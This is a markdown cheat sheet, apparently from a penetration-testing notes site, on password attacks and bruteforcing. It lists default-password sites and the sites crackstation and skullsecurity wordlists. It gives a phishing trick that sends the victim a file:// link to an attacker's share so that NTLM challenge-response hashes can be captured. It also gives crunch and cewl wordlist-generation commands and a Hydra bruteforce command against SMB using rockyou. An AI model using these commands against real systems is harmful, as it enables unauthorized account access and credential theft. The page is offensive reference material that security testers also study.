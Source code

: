 ```yaml
---
title: Password Attacks and Bruteforce
category: Exploitation
order: 98
---
```


> **Default Passwords**

* [cirt](http://www.cirt.net/passwords)
* [vulnerabilityassessment](http://www.vulnerabilityassessment.co.uk/passwords.htm)
* [default-password](https://default-password.info/)
* [routerpasswords](http://www.routerpasswords.com/)
* [phenoelit](http://www.phenoelit.org/dpl/dpl.html)


> **Sniff (Kannan, ntlm, ms kerberos)**
{% highlight bash %}
E-mail with link: file://[AttackerIP]/[AttackerShare]
Sniff the traffic between victim and client for challange and response
{% endhighlight %}


> **Mac OS X Bruteforce** 

Mac OS X:

* [crowbarKC](http://www.ibootstup.com/app/com.georgestarcher.crowbarkc)

> **Creating a password list**

Crunch | <code> crunch 6 6 0123456789ABCDEF -o list.txt </code>
Crunch | <code> cat /usr/share/crun/charset.lst <br> crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha -o mixedalpha.txt </code>
cewl | <code> cewl http://www.linkedinprofile.com > wordlistUniq.lst </code>


> **Password Guessing**

Hydra | <code>hydra -l admin -P /opt/tools/passwords/wordlists/rockyou.txt 10.0.0.2 smb </code>

> **Password Lists**

Password Lists in Kali | /usr/share/wordlists/
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php







